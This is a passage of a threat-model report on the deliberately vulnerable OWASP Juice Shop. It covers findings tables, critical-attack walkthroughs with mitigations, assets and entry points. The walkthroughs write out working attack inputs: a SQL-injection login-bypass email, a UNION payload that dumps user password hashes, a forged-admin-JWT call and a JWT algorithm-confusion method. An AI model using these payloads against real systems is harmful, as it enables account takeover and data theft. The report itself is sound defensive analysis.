[F-018](#f-018) — Security Relevant Events Not Written to Audit Log routes/login.ts, routes/reset…<br/>🟠 [F-020](#f-020) — Weak Password Hashing (lib/insecurity.ts:43)<br/>🟠 [F-021](#f-021) — MD5 Used for Password Hashing<br/>🟠 [F-022](#f-022) — Server Side Request Forgery via Profile Image URL<br/>🔴 [F-024](#f-024) — Event Loop Blocking via NoSQL \$where Injection (routes/showProductReviews.ts:23)<br/>🟠 [F-025](#f-025) — Rate Limit Bypass via X Forwarded For Spoofing<br/>🔴 [F-028](#f-028) — Missing Ownership Check on Review Update (routes/updateProductReviews.ts:18)<br/>🟠 [F-029](#f-029) — NoSQL Mass Update Allows Any User to Overwrite All Reviews<br/>🟡 [F-034](#f-034) — Docker build uses unsafe perm flag<br/>🟠 [F-035](#f-035) — Database Schema Exposure via sqlite_master Query (routes/search.ts:47)<br/>🟡 [F-036](#f-036) — Open Redirect Allowlist Bypass via URL Substring Match<br/>🟢 [F-037](#f-037) — GitHub Actions workflow grants pull requests:write permission |
| <a id="c-02"></a><a id="angular-spa"></a>C-02 | Angular SPA Frontend | client | `frontend/src/**`<br/>`frontend/dist/**` | 🔴 [F-001](#f-001) — Derived Password from OAuth Emai… (frontend/src/app/oauth/oauth.component.ts:46)<br/>🟠 [F-008](#f-008) — OAuth Implicit Flow Without PKC… (frontend/src/app/login/login.component.ts:134)<br/>🔴 [F-010](#f-010) — Stored XSS via Feedback Comment… (frontend/src/app/about/about.component.ts:119)<br/>🔴 [F-011](#f-011) — Missing Content Security Policy (frontend/src/)<br/>🔴 [F-012](#f-012) — DOM XSS via document… (frontend/src/app/data export/data export.component.ts:71)<br/>🔴 [F-013](#f-013) — DOM Based XSS v… (frontend/src/app/search result/search result.component.ts:170)<br/>🟠 [F-019](#f-019) — Insecure Token Storage (frontend/src/app/Services/request.interceptor.ts)<br/>🟠 [F-027](#f-027) — Client Side Only Admin Route Guard (frontend/src/app/app.guard.ts:54)<br/>🔴 [F-033](#f-033) — Stored XSS via L… (frontend/src/app/last login ip/last login ip.component.ts:39) |
| <a id="c-03"></a><a id="data-layer"></a>C-03 | Data Layer | data | `models/**`<br/>`data/**` | 🟠 [F-017](#f-017) — No Audit Logging at Data Layer (models/index.ts:39) |
| <a id="c-04"></a><a id="file-upload-service"></a>C-04 | File Upload Service | application | `routes/fileUpload.ts`<br/>`routes/profileImageUrlUpload.ts`<br/>`routes/profileImageFileUpload.ts`<br/>`routes/memory.ts` | 🟠 [F-026](#f-026) — YAML Bomb Resource Exhaustion (routes/fileUpload.ts:117)<br/>🟠 [F-030](#f-030) — Path Traversal via Archive Extraction (routes/fileUpload.ts:42)<br/>🟡 [F-032](#f-032) — No Audit Logging on File Upload Operations (routes/fileUpload.ts)<br/>🟢 [F-038](#f-038) — User Controlled UserId in Memory Creation (routes/memory.ts:15) |
| <a id="c-05"></a><a id="b2b-api"></a>C-05 | B2B Order API | application | `routes/b2bOrder.ts`<br/>`routes/order.ts`<br/>`routes/orderHistory.ts` | 🔴 [F-007](#f-007) — JavaScript Sandbox Escape via notevil (routes/b2bOrder.ts:23)<br/>🟠 [F-023](#f-023) — CPU Exhaustion via Unbounded safeEval Requests (routes/b2bOrder.ts:23)<br/>🟡 [F-031](#f-031) — Missing Audit Log for B2B Order Submission (routes/b2bOrder.ts) |
### 2.4 Technology Architecture

The technology stack the system is built on. Each box names the framework or runtime that fills that role; per-component findings live in the [§2.3](#23-components) component table above, and the full per-finding catalogue is in [§8 Findings Register](#8-findings-register).



> **Legend:** **red border** ≥ 3 Critical threats on the component · **amber border** ≥ 2 High threats

---

## 3. Attack Walkthroughs

This section walks through how the highest-risk findings are exploited - one short walkthrough per Critical, each with attack steps, a focused sequence diagram, and the primary mitigation. The cross-finding view (which weaknesses combine toward the worst-case goal, and where one fix severs several paths) is in the [Critical Attack Tree](#critical-attack-tree). Full per-finding context - severity rationale, assets, detection signals - is in the [§8 Findings Register](#8-findings-register) row for each finding.

### 3.1 Derived Password from OAuth Emai……

**Source:** 🔴 [F-001](#f-001) — `frontend/src/app/oauth/oauth.component.ts:46`

Severity **Critical** ([CWE-522](https://cwe.mitre.org/data/definitions/522.html)). STRIDE: Spoofing. See [§8 T-001](#t-001) for the full register row.

**Attack Steps**

1. `oauth.component.ts:30` computes `const password = btoa(profile.email.split('').reverse().join(''))` - base64 of the reversed email string.
2. This deterministic derivation means that any party who knows a target user's email address can compute the exact password used to register and authenticate that account via the `/api/Users` and login endpoints.
3. The OAuth callback at line 46 submits this derived password to the standard password endpoint with `oauth: true`, effectively creating a parallel non-OAuth authentication path for every OAuth-registered user.

**Sequence Diagram**


**Key takeaway:** Until ❷ [M-005](#m-005) (Replace deterministic email-derived password with server-sid) lands, [T-001](#t-001) — Derived Password from OAuth Emai… (frontend/src/app/oauth/oauth.component.ts:46) is exploitable at `frontend/src/app/oauth/oauth.component.ts:46` (Critical-severity, [CWE-522](https://cwe.mitre.org/data/definitions/522.html)).

**Defense in Depth**

- Primary mitigation: ❷ [M-005](#m-005) (Replace deterministic email-derived password with server-side OAuth-account linking and randomized credentials)

### 3.2 JWT Algorithm Confusion Missing algorithms Allowlist…

**Source:** 🔴 [F-002](#f-002) — `lib/insecurity.ts:54`

Severity **Critical** ([CWE-347](https://cwe.mitre.org/data/definitions/347.html)). STRIDE: Spoofing. See [§8 T-002](#t-002) for the full register row.

**Attack Steps**

1. `lib/insecurity.ts:54` defines `isAuthorized()` as `expressJwt(({ secret: publicKey }) as any)` without specifying an `algorithms` allowlist.
2. The `express-jwt` library, when not constrained to `algorithms: ['RS256']`, may accept tokens signed with `alg: none` (unauthenticated) or with `HS256` using the RSA public key as the HMAC secret - both are publicly documented `RS256`→`HS256` confusion attacks.
3. An attacker obtains the public key (which is non-secret and typically distributed), crafts a token with `alg: HS256` and any desired claims (including `role: admin`), signs it with the public key as the HMAC secret, and submits it to `/b2b/v2/orders`.

**Sequence Diagram**


**Key takeaway:** Until ❶ [M-006](#m-006) (Pin expressJwt to algorithms: ['RS256'] in `lib/insecurity.ts`) lands, [T-002](#t-002) — JWT Algorithm Confusion Missing algorithms Allowlist (lib/insecurity.ts:54) is exploitable at `lib/insecurity.ts:54` (Critical-severity, [CWE-347](https://cwe.mitre.org/data/definitions/347.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-006](#m-006) (Pin expressJwt to algorithms: ['RS256'] in `lib/insecurity.ts`)

### 3.3 SQL Injection (routes/login.ts:34)

**Source:** 🔴 [F-003](#f-003) — `routes/login.ts:34`

Severity **Critical** ([CWE-89](https://cwe.mitre.org/data/definitions/89.html)). STRIDE: Tampering. See [§8 T-003](#t-003) for the full register row.

**Attack Steps**

1. `req.body.email` flows unescaped into `models.sequelize.query()` at `routes/login.ts:34`.
2. The full query is `SELECT * FROM Users WHERE email = '${req.body.email || ''}' AND password = '${security.hash(req.body.password || '')}' AND deletedAt IS NULL`.
3. Submitting `admin@juice-sh.op'--` as the email short-circuits the password check and returns the admin row.

**Sequence Diagram**



**Key takeaway:** Until ❶ [M-001](#m-001) (Establish centralized parameterized query layer to eliminate) lands, [T-003](#t-003) — SQL Injection (routes/login.ts:34) is exploitable at `routes/login.ts:34` (Critical-severity, [CWE-89](https://cwe.mitre.org/data/definitions/89.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-001](#m-001) (Establish centralized parameterized query layer to eliminate all injection paths)
- Defence in depth: ❶ [M-007](#m-007) (Replace raw SQL login query with parameterized Sequelize query)

### 3.4 SQL Injection (routes/search.ts:23)

**Source:** 🔴 [F-004](#f-004) — `routes/search.ts:23`

Severity **Critical** ([CWE-89](https://cwe.mitre.org/data/definitions/89.html)). STRIDE: Tampering. See [§8 T-004](#t-004) for the full register row.

**Attack Steps**

1. `req.query.q` is assigned to `criteria` and truncated to 200 characters at `routes/search.ts:22`, then interpolated into `SELECT * FROM Products WHERE ((name LIKE '%${criteria}%' OR description LIKE '%${criteria}%') AND deletedAt IS NULL) ORDER BY name`.
2. A UNION-based payload - `%')) UNION SELECT id,email,password,role,NULL,NULL,NULL FROM Users--` - returns all user rows including hashed passwords and roles in the product search response.
3. The 200-character limit does not prevent short UNION payloads.

**Sequence Diagram**


**Key takeaway:** Until ❶ [M-001](#m-001) (Establish centralized parameterized query layer to eliminate) lands, [T-004](#t-004) — SQL Injection (routes/search.ts:23) is exploitable at `routes/search.ts:23` (Critical-severity, [CWE-89](https://cwe.mitre.org/data/definitions/89.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-001](#m-001) (Establish centralized parameterized query layer to eliminate all injection paths)
- Defence in depth: ❶ [M-008](#m-008) (Replace raw search query with parameterized Sequelize LIKE query)

### 3.5 Hardcoded RSA Private Key (lib/insecurity.ts:23)

**Source:** 🔴 [F-005](#f-005) — `lib/insecurity.ts:23`

Severity **Critical** ([CWE-321](https://cwe.mitre.org/data/definitions/321.html)). STRIDE: Information Disclosure. See [§8 T-005](#t-005) for the full register row.

**Attack Steps**

1. `lib/insecurity.ts:23` embeds the full PEM-encoded RSA private key as a string literal.
2. Any person who clones the repository - including unauthenticated GitHub visitors if the repo is public - obtains the key used to sign all JWT tokens.
3. Using this key, an attacker calls `jwt.sign({ email: 'admin@juice-sh.op', role: 'admin' }, privateKey, { algorithm: 'RS256' })` locally to mint a token accepted by `isAuthorized()` on every protected endpoint, including `/b2b/v2/orders` which exposes the `vm.runInContext` sink.

**Sequence Diagram**



**Key takeaway:** Until ❶ [M-002](#m-002) (Rotate committed secrets and adopt runtime secret management) lands, [T-005](#t-005) — Hardcoded RSA Private Key (lib/insecurity.ts:23) is exploitable at `lib/insecurity.ts:23` (Critical-severity, [CWE-321](https://cwe.mitre.org/data/definitions/321.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-002](#m-002) (Rotate committed secrets and adopt runtime secret management)
- Defence in depth: ❶ [M-009](#m-009) (Load RSA private key from an environment variable or secret manager in `lib/insecurity.ts`)

### 3.6 Hardcoded RSA Private Key in Source Code lib/insecurity.ts:…

**Source:** 🔴 [F-006](#f-006) — `lib/insecurity.ts:23`

Severity **Critical** ([CWE-798](https://cwe.mitre.org/data/definitions/798.html)). STRIDE: Information Disclosure. See [§8 T-006](#t-006) for the full register row.

**Attack Steps**

1. The RSA private key used to sign all JWTs is hardcoded as a string literal in `lib/insecurity.ts` line 23 and is committed to the source repository.
2. Any developer, CI pipeline participant, or attacker who gains read access to the repository can extract this key and sign arbitrary JWT payloads, impersonating any user or claiming admin role.
3. The key is also used to derive the deluxe membership token via HMAC in `security.deluxeToken()` (line 152), meaning possession of this key breaks multiple security controls simultaneously.

**Sequence Diagram**



**Key takeaway:** Until ❶ [M-002](#m-002) (Rotate committed secrets and adopt runtime secret management) lands, [T-006](#t-006) — Hardcoded RSA Private Key in Source Code lib/insecurity.ts:23 is exploitable at `lib/insecurity.ts:23` (Critical-severity, [CWE-798](https://cwe.mitre.org/data/definitions/798.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-002](#m-002) (Rotate committed secrets and adopt runtime secret management)
- Defence in depth: ❶ [M-010](#m-010) (Remove hardcoded private key and load it from environment or secrets manager at runtime)

### 3.7 JavaScript Sandbox Escape via notevil…

**Source:** 🔴 [F-007](#f-007) — `routes/b2bOrder.ts:23`

Severity **Critical** ([CWE-94](https://cwe.mitre.org/data/definitions/94.html)). STRIDE: Elevation of Privilege. See [§8 T-007](#t-007) for the full register row.

**Attack Steps**

1. `routes/b2bOrder.ts:19` reads `body.orderLinesData` without any schema validation or type constraints and passes it directly to `vm.runInContext('safeEval(orderLinesData)', sandbox, { timeout: 2000 })` at line 23.
2. The `notevil` library (`safeEval`) is a JavaScript expression evaluator with documented sandbox escapes - prototype pollution chains, constructor access, or function constructor tricks can reach the host Node\.js process from within the sandbox context.
3. A JWT-authenticated attacker sends a `POST /b2b/v2/orders` request with `orderLinesData` set to a crafted payload that escalates from the `vm.Context` into the parent Node\.js process, enabling arbitrary command execution under the application process account.

**Sequence Diagram**


**Key takeaway:** Until ❶ [M-011](#m-011) (Replace safeEval with a strict JSON schema parser for orderL) lands, [T-007](#t-007) — JavaScript Sandbox Escape via notevil (routes/b2bOrder.ts:23) is exploitable at `routes/b2bOrder.ts:23` (Critical-severity, [CWE-94](https://cwe.mitre.org/data/definitions/94.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-011](#m-011) (Replace safeEval with a strict JSON schema parser for orderLinesData in `routes/b2bOrder.ts`)

<!-- generated:walkthrough_renderer -->

---

## 4. Assets

Information assets and the classification level that drives the Confidentiality / Integrity / Availability targets used in [§8 Findings Register](#8-findings-register) risk scoring.

| Asset | ID | Classification | Description | Linked Threats |
|----------------------|-----|--------------|------------------------------------|------------------------------------------------|
| RSA Private Key (JWT Signing Key) | A-001 | Restricted | 1024-bit RSA private key used to sign all<br/>JWT tokens. Hardcoded in<br/>`lib/insecurity.ts:23` and committed to public<br/>GitHub repository. Permanently compromised. | 🔴 [F-002](#f-002) — JWT Algorithm Confusion Missing algorithms Allowlist (lib/insecurity.ts:54)<br/>🔴 [F-005](#f-005) — Hardcoded RSA Private Key (lib/insecurity.ts:23)<br/>🔴 [F-006](#f-006) — Hardcoded RSA Private Key in Source Code<br/>🟠 [F-020](#f-020) — Weak Password Hashing (lib/insecurity.ts:43)<br/>🟠 [F-021](#f-021) — MD5 Used for Password Hashing<br/>🟠 [F-030](#f-030) — Path Traversal via Archive Extraction (routes/fileUpload.ts:42)<br/>🟡 [F-036](#f-036) — Open Redirect Allowlist Bypass via URL Substring Match |
| FTP Directory — Backup Files | A-006 | Restricted | ftp/ directory served publicly via<br/>serve-index. Contains backup files including<br/>`coupons_2013.md.bak` and `package.json.bak`. | 🟠 [F-029](#f-029) — NoSQL Mass Update Allows Any User to Overwrite All Reviews<br/>🟠 [F-030](#f-030) — Path Traversal via Archive Extraction (routes/fileUpload.ts:42) |
| Encryption Keys Directory | A-007 | Restricted | encryptionkeys/ directory served publicly.<br/>Contains `jwt.pub` (RSA public key) and<br/>`premium.key`. | 🔴 [F-005](#f-005) — Hardcoded RSA Private Key (lib/insecurity.ts:23)<br/>🔴 [F-006](#f-006) — Hardcoded RSA Private Key in Source Code<br/>🟠 [F-030](#f-030) — Path Traversal via Archive Extraction (routes/fileUpload.ts:42) |
| User Credentials Database | A-002 | Confidential | SQLite database containing all user email<br/>addresses and `MD5`-hashed passwords.<br/>Accessible via SQL injection on login and<br/>search endpoints. | 🔴 [F-001](#f-001) — Derived Password from OAuth Emai… (frontend/src/app/oauth/oauth.component.ts:46)<br/>🔴 [F-003](#f-003) — SQL Injection (routes/login.ts:34)<br/>🔴 [F-004](#f-004) — SQL Injection (routes/search.ts:23)<br/>🔴 [F-010](#f-010) — Stored XSS via Feedback Comment… (frontend/src/app/about/about.component.ts:119)<br/>🔴 [F-011](#f-011) — Missing Content Security Policy (frontend/src/)<br/>🔴 [F-012](#f-012) — DOM XSS via document… (frontend/src/app/data export/data export.component.ts:71)<br/>🔴 [F-013](#f-013) — DOM Based XSS v… (frontend/src/app/search result/search result.component.ts:170)<br/>🟠 [F-020](#f-020) — Weak Password Hashing (lib/insecurity.ts:43)<br/>🟠 [F-025](#f-025) — Rate Limit Bypass via X Forwarded For Spoofing<br/>🔴 [F-033](#f-033) — Stored XSS via L… (frontend/src/app/last login ip/last login ip.component.ts:39)<br/>🟠 [F-035](#f-035) — Database Schema Exposure via sqlite_master Query (routes/search.ts:47) |
| JWT Session Tokens | A-003 | Confidential | `RS256`-signed JWT tokens carried in cookies<br/>and Authorization headers. Forgeable using<br/>the committed private key. | 🔴 [F-005](#f-005) — Hardcoded RSA Private Key (lib/insecurity.ts:23)<br/>🔴 [F-006](#f-006) — Hardcoded RSA Private Key in Source Code<br/>🟠 [F-030](#f-030) — Path Traversal via Archive Extraction (routes/fileUpload.ts:42) |
| Customer Orders and Payment Data | A-004 | Confidential | Order history, basket items, payment card<br/>records, and wallet balances stored in<br/>SQLite. Accessible via authenticated<br/>endpoints and BOLA on basket. | 🔴 [F-003](#f-003) — SQL Injection (routes/login.ts:34)<br/>🔴 [F-004](#f-004) — SQL Injection (routes/search.ts:23)<br/>🔴 [F-010](#f-010) — Stored XSS via Feedback Comment… (frontend/src/app/about/about.component.ts:119)<br/>🔴 [F-011](#f-011) — Missing Content Security Policy (frontend/src/)<br/>🔴 [F-012](#f-012) — DOM XSS via document… (frontend/src/app/data export/data export.component.ts:71)<br/>🔴 [F-013](#f-013) — DOM Based XSS v… (frontend/src/app/search result/search result.component.ts:170)<br/>🔴 [F-028](#f-028) — Missing Ownership Check on Review Update (routes/updateProductReviews.ts:18)<br/>🟠 [F-029](#f-029) — NoSQL Mass Update Allows Any User to Overwrite All Reviews<br/>🔴 [F-033](#f-033) — Stored XSS via L… (frontend/src/app/last login ip/last login ip.component.ts:39)<br/>🟠 [F-035](#f-035) — Database Schema Exposure via sqlite_master Query (routes/search.ts:47)<br/>🟢 [F-038](#f-038) — User Controlled UserId in Memory Creation (routes/memory.ts:15) |
| Product Reviews (MarsDB) | A-005 | Internal | Product reviews stored in MarsDB in-memory<br/>store. Susceptible to NoSQL injection via<br/>\$where clause. | - |
| Access Log Files | A-008 | Internal | HTTP access logs in logs/ directory,<br/>browseable via `/support/logs/`. Contains IP<br/>addresses, user agents, request paths. | 🟠 [F-029](#f-029) — NoSQL Mass Update Allows Any User to Overwrite All Reviews |
| Uploaded User Files | A-010 | Internal | User-uploaded images and complaint files<br/>stored in uploads/complaints/. Zip slip<br/>vulnerability allows write to ftp/. | 🟠 [F-029](#f-029) — NoSQL Mass Update Allows Any User to Overwrite All Reviews<br/>🟠 [F-030](#f-030) — Path Traversal via Archive Extraction (routes/fileUpload.ts:42) |
| Application Source Code (Public Repo) | A-009 | Public | Full application source code on public<br/>GitHub. Exposes all vulnerability patterns,<br/>hardcoded secrets, and exploit paths. | - |

---

## 5. Attack Surface

Network-reachable entry points classified by authentication requirement. Each row links to the threat(s) referenced in its **Notes** column. The **Risk** column reflects the highest-severity linked finding.

### 5.1 Unauthenticated Entry Points (13)

| Method | Route | Risk | Notes |
|-------|-------------------------------------|-------|------------------------------------|
| POST | `/file-upload` | 🟠 High | 🟠 [F-016](#f-016) (XML External Entity Injection in File Upload)<br/>🟡 [F-032](#f-032) (No Audit Logging on File Upload Operations)<br/>🔴 [F-009](#f-009) (Missing Authentication on File Upload Endpoint)<br/>handler: `server.ts:309` |
| GET | `/metrics` | 🟠 High | 🟠 [F-022](#f-022) (Server Side Request Forgery via Profile Image URL)<br/>Management surface; handler: `server.ts:718` |
| POST | `/profile/image/file` | 🟠 High | 🟠 [F-022](#f-022) (Server Side Request Forgery via Profile Image URL)<br/>🟡 [F-032](#f-032) (No Audit Logging on File Upload Operations)<br/>handler: `server.ts:310` |
| POST | `/profile/image/url` | 🟠 High | 🟠 [F-022](#f-022) (Server Side Request Forgery via Profile Image URL)<br/>handler: `server.ts:311` |
| OPTIONS | `*` | - | handler: `server.ts:181` |
| ? | `/.well-known/ (directory listing)` | - | Well-known directory browseable |
| ? | `/api-docs (Swagger UI)` | - | Full API specification exposed without<br/>authentication |
| ? | `/encryptionkeys/ (directory listing)` | - | Serves RSA public key and `premium.key`<br/>publicly |
| ? | `/ftp/ (directory listing)` | - | serve-index on ftp/ exposes backup files<br/>without authentication |
| GET | `/rest/admin/application-configuration` | - | Management surface; handler: `server.ts:605` |
| GET | `/rest/admin/application-version` | - | Management surface; handler: `server.ts:604` |
| POST | `/rest/memories` | - | handler: `server.ts:312` |
| ? | `/support/logs/ (directory listing)` | - | Access logs browseable without<br/>authentication |

### 5.2 Authenticated Entry Points (6)

| Method | Route | Risk | Notes |
|------|----------------------------------|----------|------------------------------------|
| GET | `/api/Users` | 🔴 Critical | 🔴 [F-001](#f-001) (Derived Password from OAuth Emai…)<br/>handler: `server.ts:362` |
| POST | `/api/Challenges` | - | handler: `server.ts:372` |
| POST | `/api/Products` | - | handler: `server.ts:368` |
| PUT | `/api/Products/:id` | - | handler: `server.ts:369` |
| DELETE | `/api/Products/:id` | - | handler: `server.ts:370` |
| ? | `/b2b/v2/orders (B2B eval endpoint)` | - | Requires JWT authentication but evaluates<br/>orderLinesData via `vm.runInContext` |

---

## 7. Security Architecture

This section evaluates the security controls across 13 architectural domains. Every finding is intentional - Juice Shop is a deliberately-vulnerable training platform. The ratings reflect the actual security posture of the codebase as deployed.

### 7.1 Security Control Overview

<!-- §7.1 MECHANICAL-FROZEN — do not re-author this table -->
| Control category | Verdict | Main reason |
|----------------------|---------|------------------------------------|
| [7.2 Identity and Authentication](#72-identity-and-authentication-controls) | 🔴 Unsafe | SQL login, hardcoded JWT signing material,<br/>and weak password hashing break the<br/>authentication boundary |
| [7.3 Session and Token Controls](#73-session-and-token-controls) | 🔴 Unsafe | Committed private key and<br/>`alg:none`-vulnerable library make every<br/>session token forgeable |
| [Authorization Controls](#74-authorization-controls) | 🟠 Weak | BOLA on basket; admin endpoints accessible<br/>without auth; role claims forgeable via JWT |
| [Query Construction and Data Access](#75-query-construction-and-data-access-controls) | 🔴 Unsafe | Raw SQL string interpolation in login and<br/>search; NoSQL \$where operator injection in<br/>reviews |
| [Input Boundary Validation](#76-input-boundary-validation-controls) | 🟡 Partial | File size and type checks present; no schema<br/>validation framework on route handlers |
| [Output Encoding and Rendering](#77-output-encoding-and-rendering-controls) | 🔴 Unsafe | DomSanitizer explicitly bypassed in three<br/>Angular components; XSS filter intentionally<br/>disabled |
| [Browser and Cross-Origin Controls](#78-browser-and-cross-origin-controls) | 🔴 Unsafe | CORS wildcard allows any origin; no<br/>application-wide CSP; no CSRF token |
| [Cryptography, Secrets and Data Protection](#79-cryptography-secrets-and-data-protection) | 🔴 Unsafe | `MD5` password hashing, committed 1024-bit RSA<br/>key, hardcoded HMAC and cookie secrets |
| [File, Parser and Outbound Request Controls](#710-file-parser-and-outbound-request-controls) | 🔴 Unsafe | XXE via external entity processing; SSRF via<br/>unvalidated image URL; incomplete ZIP path<br/>check |
| [Operations, Runtime and Supply Chain](#711-operations-runtime-and-supply-chain-controls) | 🟡 Partial | Distroless container and pinned CI SHAs are<br/>positive; unmaintained deps and<br/>unauthenticated metrics are gaps |
| [Real-time and Not Applicable Controls](#712-real-time-and-not-applicable-controls) | 🔴 Missing | Socket\.IO endpoint accepts connections<br/>without any authentication |
| [Defense-in-Depth Summary](#713-defense-in-depth-summary) | 🔴 Unsafe | No effective layered defense; every control<br/>boundary is compromised by design |
<!-- §7.1 MECHANICAL-FROZEN -->

### 7.2 Identity and Authentication Controls

**Verdict:** 🔴 Unsafe - SQL injection in the login endpoint bypasses authentication entirely; the RSA private key committed to the public repository enables offline JWT forgery for any user account.

**Controls covered:**

- [7.2.1 Password-Based Authentication](#721-password-based-authentication)
